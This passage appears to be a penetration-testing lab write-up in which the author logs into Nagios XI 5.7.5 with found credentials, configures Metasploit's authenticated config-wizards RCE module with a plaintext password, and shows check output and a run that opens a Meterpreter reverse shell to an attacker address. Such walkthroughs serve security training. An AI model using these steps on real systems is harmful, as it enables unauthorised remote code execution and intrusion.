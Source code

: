 Using these credentials, I was able to log into the Nagios XI interface.


### Nagios XI discovery and exploitation

Inside the Nagios XI UI I saw the application version in the footer/left corner: **Nagios XI 5.7.5**.

I searched Metasploit for a matching exploit (like `nagios xi 5.7.5`) and selected `exploit/linux/http/nagios_xi_configwizards_authenticated_rce`.

Then configured the module:

```bash
set rhosts <target_ip>
set vhost monitoring.inlanefreight.local
set lhost <attacker_ip>
set password oilaKglm7M09@CPL&^lC
set target 1
```

I always run `check` first:

```bash
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[*] <target_ip>:80 - The target appears to be vulnerable.
```

`check` output indicated the target is Nagios XI 5.7.5 and appeared vulnerable.


#### Exploitation attempts & success

First `run` attempt:

```bash
[*] Started reverse TCP handler on <attacker_ip>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Exploit completed, but no session was created.
```

I ran it again (sometimes the first attempt fails), and the second `run` succeeded:

```bash
[*] Started reverse TCP handler on <attacker_ip>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Sending stage (3090404 bytes) to <target_ip>
[*] Meterpreter session 1 opened (<attacker_ip>:4444 -> <target_ip>:52430) at ...
[*] Command Stager progress - 100.00% done (833/833 bytes)

(Meterpreter 1)(/usr/local/nagiosxi/html/config) > 
```
